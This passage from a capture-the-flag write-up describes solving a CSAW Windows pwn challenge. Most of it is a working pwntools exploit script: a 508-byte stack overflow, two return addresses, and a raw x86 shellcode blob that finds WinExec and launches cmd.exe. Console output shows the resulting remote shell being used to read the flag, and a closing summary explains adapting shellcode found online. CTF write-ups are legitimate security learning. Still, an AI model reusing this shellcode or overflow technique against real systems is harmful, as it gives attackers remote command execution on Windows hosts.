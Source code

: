 Our exploit script:
```py
from pwn import *
# r = remote("127.0.0.1", 7778)
r = remote('win.chal.csaw.io', 7778)

# pause()

payload = b"A" * 508        # Buffer
payload += p32(0x62101627)  # sleep function
payload += p32(0x62101621)  # shellcode gadget
# lol
monolith = b'\x50\x53\x51\x52\x56\x57\x55\x55\x89\xE5\x83\xEC\x18\x31\xF6\x56\x6A\x63\x66\x68\x78\x65\x68\x57\x69\x6E\x45\x89\x65\xFC\x31\xF6\x64\x8B\x5E\x30\x8B\x5B\x0C\x8B\x5B\x14\x8B\x1B\x8B\x1B\x8B\x5B\x10\x89\x5D\xF8\x8B\x43\x3C\x01\xD8\x8B\x40\x78\x01\xD8\x8B\x48\x24\x01\xD9\x89\x4D\xF4\x8B\x78\x20\x01\xDF\x89\x7D\xF0\x89\xC6\x83\xC6\x20\x4E\x4E\x4E\x4E\x8B\x16\x31\xF6\x01\xDA\x89\x55\xEC\x83\xC0\x14\x48\x48\x8B\x10\x31\xC0\x8B\x7D\xF0\x8B\x75\xFC\x31\xC9\xFC\x8B\x3C\x87\x01\xDF\x66\x83\xC1\x08\xF3\xA6\x74\x08\x40\x39\xD0\x72\xE5\x83\xC4\x26\x8B\x4D\xF4\x8B\x55\xEC\x89\xCE\x01\xC6\x01\xC6\x66\x8B\x06\x89\xD6\x01\xC6\x01\xC6\x01\xC6\x01\xC6\x8B\x06\x31\xF6\x01\xD8\x31\xD2\x52\x68\x65\x78\x65\x20\x68\x63\x6D\x64\x2E\x68\x6D\x33\x32\x5C\x68\x79\x73\x74\x65\x68\x77\x73\x5C\x53\x68\x69\x6E\x64\x6F\x68\x43\x3A\x5C\x57\x89\xE6\x6A\x01\x56\xFF\xD0\x83\xC4\x46\xC3'
payload += monolith


r.recvuntil('>')
r.sendline(payload)
r.interactive()
```

Running it on remote gives us a shell, and we can read the flag!

```
[*] Switching to interactive mode
 Thanks for playing...
Microsoft Windows [Version 10.0.17763.3287]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>cd chal
cd chal

C:\chal>
C:\chal>more flag.txt
more flag.txt
flag{I_w4nt3d_t0_j01n_y0ur_T34ms_p4rty_but_1_h4d_t0_jump_t0_4n0th3r_funct10n}

C:\chal>
C:\chal>
```

Neat! A lot of the same principals as regular shellcode, but needs extra work to get access to our kernel level syscalls.

It was the 8th solve at the time, and so then after 6 or 7 hours of work, I submitted the flag at 6am CST and promptly went to bed.

## TL;DR <a name="tldr"></a>
Use some windows shellcode from online, adapt it for it being read rather than compiled in a C file. Place it in a exploit script and run it.

\- Surg